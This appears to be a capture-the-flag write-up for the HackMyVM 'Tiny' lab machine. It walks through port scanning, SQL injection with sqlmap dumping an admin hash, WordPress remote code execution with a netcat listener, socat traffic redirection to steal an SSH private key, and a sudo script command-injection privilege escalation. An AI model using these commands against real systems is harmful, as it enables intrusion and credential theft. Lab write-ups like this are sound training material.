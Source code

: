 ```yaml
---
title: Tiny - HackMyVM Writeup
date: 2024-02-11
categories:
  - Writeups
tags:
  - Linux
  - Sql_injection
  - Wordpress
  - Enumeration
  - PrivEsc
---
```


# Arp-scan 

 Detecting the ip of the machine

```bash
192.168.1.97	08:00:27:ee:8a:18	PCS Systemtechnik GmbH
```


# Ports

Starting with port scanning by using nmap

```bash
root@kali ~ [SIGINT]# nmap  -sC 192.168.1.97 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-10 06:17 EST
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 91.04% done; ETC: 06:17 (0:00:00 remaining)
Stats: 0:00:09 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 97.76% done; ETC: 06:17 (0:00:00 remaining)
Stats: 0:00:09 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.44% done; ETC: 06:17 (0:00:00 remaining)
Nmap scan report for tiny (192.168.1.97)
Host is up (0.0012s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   256 dd:83:da:cb:45:d3:a8:ea:c6:be:19:03:45:76:43:8c (ECDSA)
|_  256 e5:5f:7f:25:aa:c0:18:04:c4:46:98:b3:5d:a5:2b:48 (ED25519)
80/tcp   open  http
|_http-generator: WordPress 6.3.1
|_http-title: Blog
| http-robots.txt: 15 disallowed entries 
| /wp-admin/ /cgi-bin/ /private/ /temp/ /backup/ /old/ 
| /test/ /dev/ / /misc/ /downloads/ /doc/ /documents/ 
|_/restricted/ /confidential/
8888/tcp open  sun-answerbook
MAC Address: 08:00:27:EE:8A:18 (Oracle VirtualBox virtual NIC)
```

We can see that 80, 22 and 8888 ports are opened

# Add Hosts

![[website.png]]

We are able to see that the website is loading contents in domain tiny.hmv, and hence we need to add the domain into /etc/hosts, so that it can resolve properly (virtual hosting).

```shell
echo "192.168.1.97  tiny.hmv" >> /etc/hosts
```

# Url Enumeration

As usual, firstly, we will check whether there is robots.txt

From robots.txt:

```shell
# Additional sitemap references
Sitemap: http://tiny.hmv/sitemap.xml
Sitemap: http://wish.tiny.hmv/sitemap.xml
```

We are able to find that there is a subdomain which is called "wish.tiny.hmw"

# Sql injection

Check whether the website is vulnerable to sqli(sql injection)

![[burp.png]]

It appears that Sqli is existed in the website and there we use sqlmap to enumerate the user and the password in the database:

```shell
sqlmap -r req.req --batch -D wish_db -T admin -C id,password,username --dump 
```

Results:

```shell
Database: wish_db                                                         
Table: admin
[1 entry]
+----+--------------------------------------------+----------+
| id | password                                   | username |
+----+--------------------------------------------+----------+
| 1  | 8df4387dd1598d4dcf237f9443028cec           | umeko    |
+----+--------------------------------------------+----------+

```

*Not going to show the decrypted password, as the content of the decrypted password is offensive*

# Shell 

Logging into the website and using wpscan, we can detect that the website is vulnerable to  [CVE-2023-5201](https://github.com/advisories/GHSA-52wg-h24c-3wgr), which we can do Remote Code Execution.

![[wordpress_cve.png]]

We listen to port 1234 by using nc (netcat) and get the shell

```bash
nc -nlvp 1234
```

Upgrading simple shells to fully interactive TTYs

```shell
/usr/bin/script -qc /bin/bash /dev/null
export TERM=xterm
```

Referring the port scanning result earlier, we notice that port 8888 is opened as well and yet to be used, hence we can do a smart assumption.

```shell
ss -tulnp
ps -elf 
```

![[ps.png]]

![[ss.png]]

We can see that TinyProxy is running

By accessing  /etc/tinyproxy/tinyproxy.conf, we can the configurations

```shell
cat /etc/tinyproxy/tinyproxy.conf | grep -v "#"
```

![[config.png]]

From that we can see that port 1111 is opened, and all traffic is being directed to "localhost:1111"

If all the traffics are being directed to port 1111, we can make an assumption and listen to port 1111 by using "nc", from the response we can see that "Get http://127.0.0.1:8000/id_rsa".

Hence we can do a redirection of traffic from port 1111 to 8000 by using "Socat" 

```
socat -v tcp-listen:1111;reuseaddr tcp:localhost:8000
```

and hence we are able to get the private key, saving and naming it as "id_rsa"

![[private_key.png]]

granting "id_rsa" with 600 permission and we connect user vic by using "id_rsa" via ssh

```shell
chmod 600 id_rsa
ssh -i id_rsa vic@127.0.0.1
```

# Root Access

 After accessing user "vic", we are able to get our first flag.

![[user_flag.png]]

By doing sudo -l, we can see that we can use sudo command to execute /opt/car.py

![[permissions.png]]

We see what it is contained in "car.py" file and we can see "pydash lib", which we can find a Command Injection vulnerability  

```shell
cat car.py
```

![[car_py_content.png]]

By doing this, we are able to get Root Permission and get the flag

![[privilege escalation.png]]
